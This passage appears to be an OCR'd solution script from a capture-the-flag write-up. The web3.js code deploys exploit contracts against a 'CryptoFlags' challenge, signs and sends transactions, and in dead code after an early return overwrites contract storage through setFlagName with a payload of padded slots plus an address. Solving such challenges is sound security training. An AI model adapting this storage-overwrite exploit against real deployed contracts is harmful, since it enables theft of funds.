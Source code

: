   const exploitImpl = new web3.eth.Contract(exploitImplAbi);
  const exploit = new web3.eth.Contract(exploitAbi);

  const { options: { address: exploitImplAddress } } = await exploitImpl.deploy({
    data: "0x" + exploitImplBytecode
  }).send({
    from: account.address,
  });
  console.log(`deployed exploit impl at ${exploitImplAddress}`);

  const setup = new web3.eth.Contract(compiled.contracts["Setup.sol"]["Setup"].abi, SETUP);
  const flags = new web3.eth.Contract(compiled.contracts["CryptoFlags.sol"]["CryptoFlags"].abi, await setup.methods.cryptoFlags().call());

  const { options: { address: exploitAddress } } = await exploit.deploy({
    data: "0x" + exploitBytecode,
    arguments: [flags.options.address]
  }).send({
    from: account.address,
  });
  console.log(`deployed exploit at ${exploitAddress}`);

  async function sendMethod(target, method) {
    const tx = {
      from: account.address,
      to: target.options.address,
      gas: 9999999,
      gasPrice: await web3.eth.getGasPrice(),
      data: method.encodeABI()
    };
    const signed = await web3.eth.accounts.signTransaction(tx, PRIVATE_KEY);
    await web3.eth.sendSignedTransaction(signed.rawTransaction);
  }

  const deployedExploit = new web3.eth.Contract(compiled.contracts["Exploit.sol"]["Exploit"].abi, exploitAddress);

  await sendMethod(deployedExploit, deployedExploit.methods.exploit(exploitImplAddress));
  console.log(await setup.methods.isSolved().call());

  return;

  const FLAG_ID = 56488061;

  await sendMethod(flags, flags.methods.claimFlag(FLAG_ID));
  console.log("claimed flag");

  const slot = "\x00".repeat(32);
  const payload = slot.repeat(141) + Buffer.from(web3.eth.abi.encodeParameter("uint256", exploitAddress).slice(2), "hex").toString();
  await sendMethod(flags, flags.methods.setFlagName(FLAG_ID, payload));
  console.log("set flag name");

  console.log(await setup.methods.isSolved().call());
})();
{% endprism %}